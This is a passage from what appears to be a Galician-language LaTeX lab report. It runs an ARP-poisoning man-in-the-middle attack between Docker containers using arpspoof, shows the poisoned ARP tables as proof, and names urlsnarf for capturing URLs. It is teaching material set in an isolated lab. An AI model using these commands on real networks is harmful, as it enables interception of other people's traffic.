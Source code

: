 \begin{enumerate}
\item Execución do ataque:

Para executar o ataque, o contedor atacante enviará en bucle numerosas mensaxes ARP aos contedores cliente e servidor, co fin de envelenar as súas respectivas táboas ARP e tendo lugar por conseguinte un ataque MITM. Para elo, empregarase o \textit{software} \textit{arpspoof}, pertencente ao paquete de utilidades \textit{dsniff}\footnote{https://www.monkey.org/~dugsong/dsniff/}.

\begin{lstlisting}[,caption={Envelenamento táboas ARP dende contedor atacante}]
root@9f3f255ace4a:/# arpspoof -i eth0 172.18.0.2 -t 172.18.0.3 &
root@9f3f255ace4a:/# arpspoof -i eth0 172.18.0.3 -t 172.18.0.2 &
\end{lstlisting}

\item Comprobación do ataque:

Unha vez foron enviadas algunhas mensaxes ARP co fin de envelenar as táboas dos contedores cliente e servidor, comprobaremos que o ataque efectuouse correctamente. Para iso, inspeccionáronse novamente as táboas ARP, onde agora pódese ver con total claridade que as asociacións entre direccións físicas e IP víronse truncadas, facendo chegar por tanto paquetes non lexítimos ao contedor atacante. Ademais, no contedor atacante executaremos a utilidade \textit{urlsnarf}, pertencente tamén ao paquete \textit{dsniff}, o cal mostrará por pantalla todas as URLs solicitadas, como forma de comprobar o éxito do ataque MITM. No proceso será necesario que, por exemplo, o contedor cliente solicite unha páxina web ao contedor servidor.

\begin{lstlisting}[,caption={Consulta táboa ARP do contedor cliente}]
root@20136c4451bb:/# arp -a
arpspoof_kali_1.arpspoof_default (172.18.0.4) at 02:42:ac:12:00:04 [ether] on eth0
? (172.18.0.1) at 02:42:39:9e:31:24 [ether] on eth0
arpspoof_nginx_1.arpspoof_default (172.18.0.3) at 02:42:ac:12:00:04 [ether] on eth0
\end{lstlisting}

\begin{lstlisting}[,caption={Consulta táboa ARP do contedor servidor}]
root@07cecfe068f2:/# arp -a
arpspoof_kali_1.arpspoof_default (172.18.0.4) at 02:42:ac:12:00:04 [ether] on eth0
? (172.18.0.1) at 02:42:39:9e:31:24 [ether] on eth0
arpspoof_ubuntu_1.arpspoof_default (172.18.0.2) at 02:42:ac:12:00:04 [ether] on eth0
\end{lstlisting}


\end{enumerate}
